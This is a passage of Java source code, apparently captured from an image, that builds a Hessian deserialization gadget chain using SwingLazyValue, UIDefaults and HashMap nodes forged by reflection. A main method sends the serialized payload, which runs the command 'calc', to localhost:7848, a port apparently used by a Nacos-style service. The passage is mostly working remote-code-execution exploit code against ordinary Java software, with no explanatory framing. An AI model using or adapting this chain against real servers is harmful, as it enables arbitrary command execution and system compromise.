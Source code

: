 ```
//        Method getClassFactoryMethod = SerializerFactory.class.getDeclaredMethod("getClassFactory");
//        SwingLazyValue swingLazyValue1 = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invoke, new Object(), new Object[]{getClassFactoryMethod, SerializerFactory.createDefault(), new Object[]{}}});
//        Object value = swingLazyValue1.createValue(new UIDefaults());
//
//        Method allowMethod = ClassFactory.class.getDeclaredMethod("allow", String.class);
//        SwingLazyValue swingLazyValue2 = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", new Object[]{invoke, new Object(), new Object[]{allowMethod, value, new Object[]{"*"}}});
//        Object value1 = swingLazyValue2.createValue(new UIDefaults());
//        System.out.println(value1);

        UIDefaults u1 = new UIDefaults();
        UIDefaults u2 = new UIDefaults();
        u1.put("key", swingLazyValue);
        u2.put("key", swingLazyValue);
        HashMap hashMap = new HashMap();
        Class node = Class.forName("java.util.HashMap$Node");
        Constructor constructor = node.getDeclaredConstructor(int.class, Object.class, Object.class, node);
        constructor.setAccessible(true);
        Object node1 = constructor.newInstance(0, u1, null, null);
        Object node2 = constructor.newInstance(0, u2, null, null);
        Field key = node.getDeclaredField("key");
        key.setAccessible(true);
        key.set(node1, u1);
        key.set(node2, u2);
        Field size = HashMap.class.getDeclaredField("size");
        size.setAccessible(true);
        size.set(hashMap, 2);
        Field table = HashMap.class.getDeclaredField("table");
        table.setAccessible(true);
        Object arr = Array.newInstance(node, 2);
        Array.set(arr, 0, node1);
        Array.set(arr, 1, node2);
        table.set(hashMap, arr);

        HashMap hashMap1 = new HashMap();
        size.set(hashMap1, 2);
        table.set(hashMap1, arr);

        HashMap map = new HashMap();
        map.put(hashMap, hashMap);
        map.put(hashMap1, hashMap1);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output output = new Hessian2Output(baos);
        output.getSerializerFactory().setAllowNonSerializable(true);
        output.writeObject(map);
        output.flushBuffer();

        Hessian2Input hessian2Input = new Hessian2Input(new ByteArrayInputStream(baos.toByteArray()));
        SerializerFactory.createDefault().getClassFactory().allow("*");
        hessian2Input.readObject();

        return baos.toByteArray();
    }

    public static void main(String[] args) throws Exception {
        byte[] bytes = build("calc");
        send("localhost:7848", bytes);
```